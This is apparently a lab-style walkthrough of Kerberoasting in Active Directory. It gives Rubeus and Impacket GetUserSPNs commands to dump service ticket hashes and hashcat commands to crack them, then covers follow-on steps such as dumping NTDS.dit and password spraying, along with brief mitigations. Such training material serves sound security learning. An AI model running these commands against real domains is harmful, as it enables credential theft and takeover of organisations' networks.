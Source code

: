 # Kerberoasting with Rubeus & Impacket

### **Introduction**

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. That is a bit out of scope for this room but it is a great tool for finding accounts to target.

In order to perform the attack, we'll be using both Rubeus as well as Impacket so you understand the various tools out there for Kerberoasting. There are other tools out there such a kekeo and Invoke-Kerberoast but I'll leave you to do your own research on those tools.

***

### **Method 1 : Kerberoasting with Rubeus**

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users

<figure><img src="../../../../../../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat

3. `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

***

### **Method 2 - Impacket**

#### Impacket Installation

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20

1. `cd /opt` navigate to your preferred directory to save tools in
2. download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19
3. `cd Impacket-0.9.19` navigate to the impacket directory
4. `pip install .` - this will install all needed dependencies

#### Kerberoasting w/ Impacket

1. `cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located
2. `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.15.51 -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.
3. `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

***

### **What Can a Service Account do**

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.

***

### **Kerberoasting Mitigation**

#### Strong Service Passwords

If the service account passwords are strong then kerberoasting will be ineffective

#### Don't Make Service Accounts Domain Admins

Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

***
